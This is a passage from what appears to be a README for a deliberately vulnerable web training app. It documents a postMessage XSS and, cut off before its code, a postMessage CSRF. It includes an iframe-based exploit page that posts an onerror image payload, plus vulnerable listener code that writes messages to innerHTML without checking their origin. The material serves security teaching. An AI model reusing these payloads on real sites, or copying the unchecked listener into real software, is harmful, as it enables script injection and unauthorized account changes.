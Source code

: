 Application is receiving ticket details from the user and then using it to generate HTML page by using html-pdf-node package function generatePdf that takes URL as an input and generates the PDF from the received response.


## 10. postMessage XSS

The user edit page has an `addEventListener()` call that listens for the web message and inserts that message to a `<div>` without verifying the origin from where it received the message.

### Exploit

Create an HTML page with the following code and host it on your server to perform the XSS

```html
<html>
<body>
<iframe src="http://tauheedkhan.com:9000/user-edit" id="victimWebsite" width="100%" height="100%"></iframe>
<script>
  document.addEventListener('readystatechange', () =>{
    victimWebsite.contentWindow.postMessage("<img src=X onerror=alert(\"HACKED\")>", '*')
  })
</script>
</body>
</html>
```

### Vulnerable Code

**View: /views/user-edit.ejs**

```js
window.addEventListener("message", function(event){
    document.getElementById("displayMessage").removeAttribute('hidden')
    document.getElementById("displayMessage").innerHTML = event.data;
})
```


## 11. postMessage CSRF

Organization Management page has a functionality to add users to the organization when the org owner clicks on the `Add Users` button it opens a new popup window then the org owner selects a user from the list and clicks on the `Add` button this button posts a message using `postMessage()` to the tab which opened it then the opener tab receives the selected username using `addEventListener()` and sends the HTTP request to add that user in the org. Here opener tab does not verify the origin from which it received the message which means any origin can send an arbitrary username using `postMessage()` and that username will be added to the organization.

### Exploit


1. First create an organization in the victim account.
2. Create a hacker account.
3. Save the following code in an HTML file and replace the username with your hacker username and send that to the victim user your hacker user will get added to the victim organization.
